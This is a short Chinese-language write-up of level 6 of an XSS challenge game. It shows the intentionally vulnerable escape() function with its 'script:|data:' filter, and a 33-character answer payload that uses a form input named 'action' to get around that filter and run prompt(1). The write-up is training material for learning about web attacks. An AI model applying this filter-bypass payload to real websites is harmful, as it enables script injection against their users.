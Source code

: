 Level 6
-------

* * *

虽然有过滤，但是可以将输入插入到form表单的`action`中。

### 代码

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}

```

### 答案

33个字符

```
javascript:prompt(1)#{"action":1}

```
